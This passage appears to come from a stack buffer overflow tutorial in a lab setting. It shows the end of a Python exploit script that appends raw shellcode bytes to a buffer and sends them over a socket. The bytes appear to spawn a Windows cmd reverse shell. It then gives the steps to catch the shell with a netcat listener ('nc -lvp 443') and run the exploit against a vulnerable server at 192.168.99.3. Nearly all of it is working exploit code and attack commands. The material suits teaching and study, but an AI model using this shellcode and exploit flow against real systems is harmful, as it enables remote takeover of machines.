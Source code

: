 ```python
buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# send payload
sock.send(buf)
sock.close()
```
{% endcode %}

## Executing Exploit

Let's now fire up a netcat listener on `192.168.99.2:443` to catch a reverse shell incoming from the vulnerable server `192.168.99.3`:

```text
nc -lvp 443
```

...and fire our exploit at the server running the vulnerable program:

```text
python exploit.py
```

Below shows how netcat receives a reverse shell, concluding that the vulnerable program's stack was successfully overflown and program's execution flow was subverted, which resulted in our shellcode getting executed, giving us the reverse shell:

![Stack is overflown and shellcode is executed, resulting in a reverse shell](../../../.gitbook/assets/executing-exploit.gif)
